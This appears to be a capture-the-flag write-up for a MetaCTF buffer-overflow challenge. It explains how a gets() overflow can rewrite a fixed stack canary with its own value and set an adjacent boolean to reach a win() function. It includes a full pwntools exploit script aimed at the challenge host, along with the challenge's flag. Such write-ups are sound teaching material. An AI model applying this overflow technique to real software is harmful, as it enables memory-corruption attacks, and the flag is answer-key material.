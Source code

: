 # Canary in the Bitcoin Mine - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/CanaryInTheBitcoinMine.gif)

---

## Challenge Summary

This challenge simulates a buffer overflow scenario protected by a stack canary. The program reads user input into a fixed-size buffer using the unsafe gets() function. The buffer is followed by a canary value (0x44524942, representing "BIRD"), and a boolean flag earnedFlag.

If the input overwrites the canary, the program detects the corruption and exits. To earn the flag, the attacker must carefully overflow the buffer without corrupting the canary, and set the earnedFlag variable to true. Once set, the hidden win() function is triggered to print the flag from flag.txt.

---

## Binary Information

```bash
$ file canary_in_the_bitcoin_mine
```

![Alt text](img/2.png)

```bash
$ pwn checksec canary_in_the_bitcoin_mine
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

- The program declares a local struct `mineshaft` containing a 64-byte buffer `mine`, a 4-byte canary (`canary`), and a boolean flag (`earnedFlag`).
- The `gets()` function is used to read user input into `mine` without bounds checking, making it vulnerable to buffer overflow.
- The canary is initialized to `0x44524942` (`"BIRD"` in little-endian) and checked after input to detect overflow.
- If the canary value is modified, the program exits immediately.
- The boolean flag `earnedFlag` is initially `false`. The program checks it after input and calls `win()` to print the flag only if this flag is set to `true`.

  ![Alt text](img/4.png)

- The overflow vulnerability can be exploited by overwriting memory **past the buffer but before the canary** to control `earnedFlag` without corrupting the canary.
- CLion’s debugger can help visualize the memory layout, allowing precise calculation of overflow offsets to manipulate `earnedFlag` safely.

  ![Alt text](img/5.png)

  This analysis highlights a classic **stack buffer overflow with canary protection**, requiring careful input crafting to bypass the canary check and set `earnedFlag` to gain the flag.

  ![Alt text](img/6.png)

---

## Exploit Strategy

Use a carefully crafted input to overflow the buffer and set the earnedFlag to true without overwriting the canary. This triggers the win() function and reveals the flag. Precise control is needed to avoid canary corruption while modifying adjacent memory.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template canary_in_the_bitcoin_mine --host host3.metaproblems.com --port 5980
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'canary_in_the_bitcoin_mine')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host3.metaproblems.com'
port = int(args.PORT or 5980)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

BUFFER = b'A' * 64
CANARY = b'BIRD'
EARNED_FLAG = b'true'

payload = flat(
        BUFFER,
        CANARY,
        EARNED_FLAG
)
io.sendline(payload)
io.recvuntil(b"Well done, you've earned the flag!")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output

![Alt text](img/7.png)

---

## Vulnerability Summary

The program uses the unsafe gets() function to read input into a fixed-size buffer. Although a stack canary protects against full overflow detection, it is possible to overflow just enough to overwrite the adjacent earnedFlag boolean without altering the canary. This allows attackers to bypass protections and trigger the hidden win() function to read the flag.

## Flag

```
MetaCTF{g0t_7h3_fl4g_4nd_s4v3d_7h3_canary}
```

